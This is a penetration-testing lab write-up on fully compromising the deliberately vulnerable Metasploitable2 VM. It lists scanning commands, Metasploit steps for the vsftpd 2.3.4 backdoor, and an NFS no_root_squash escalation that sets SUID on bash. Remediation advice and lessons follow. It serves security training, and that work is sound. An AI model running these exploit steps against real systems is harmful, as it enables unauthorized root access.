

# Metasploitable2 – Full System Compromise
## From Service Enumeration to Root via vsftpd Backdoor & NFS Misconfiguration

---

## Overview
- **Target**: Metasploitable2 (Lab Environment)
- **Attacker**: Kali Linux
- **Network**: Isolated Host-only Network
- **Goal**: Full system compromise (root)
- **Result**: ✅ Root obtained (uid=0)

---

## Attack Flow Summary
Reconnaissance  
→ Service Enumeration (nmap)  
→ Initial Access: vsftpd 2.3.4 Backdoor → Root (Path 1)  
→ Alternative: NFS no_root_squash → Privilege Escalation (Path 2)  
→ Full System Compromise

---

## Network Enumeration
Target identified within an isolated lab subnet.

---

## Port & Service Scanning
```bash
nmap -T4 -sV 192.168.18.4
```


## Exposed Services (Legacy System)
- FTP (vsftpd 2.3.4)
- Telnet
- Apache HTTP
- SMB
- NFS
- distccd
- UnrealIRCd

The presence of multiple legacy services significantly increases attack surface.

---

## Web Enumeration
```bash
gobuster dir -u http://192.168.18.4 -w common.txt -x php,txt,html
```
**Finding**: phpinfo.php disclosed server paths and configuration details.

---

## Initial Access — Path 1 (vsftpd Backdoor)
- **Exploit**: unix/ftp/vsftpd_234_backdoor
- **CVE**: CVE-2011-2523
- **Result**: Root shell directly — no privesc required

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.18.4
set LHOST 192.168.18.5
run
getuid
```


---

## Privilege Escalation — Path 2 (NFS Misconfiguration)
- **Finding**: NFS export root filesystem with no_root_squash enabled
- **CVE**: N/A (misconfiguration)
- **Result**: Root via SUID bash

```bash
showmount -e 192.168.18.4
mount -t nfs 192.168.18.4:/ /mnt/target
chmod +s /mnt/target/bin/bash
/bin/bash -p
id
```
**Result**: euid=0(root)

---

## Impact
- Full system compromise
- Complete loss of confidentiality, integrity, and availability

---

## Remediation
- Disable vsftpd 2.3.4 and upgrade to patched version
- Remove no_root_squash from NFS exports
- Restrict NFS access to trusted hosts only

---

## Lessons Learned
- Enumeration is more important than exploitation
- Legacy services are high-risk
- NFS misconfigurations are critical privilege escalation vectors
- Knowing when to pivot is a key pentester skill

---

## Conclusion
This lab demonstrates how a legacy Linux host can be fully compromised using well-known vulnerabilities and misconfigurations, without the need for zero-day exploits.

**Machine Status**: Fully Compromised ✅
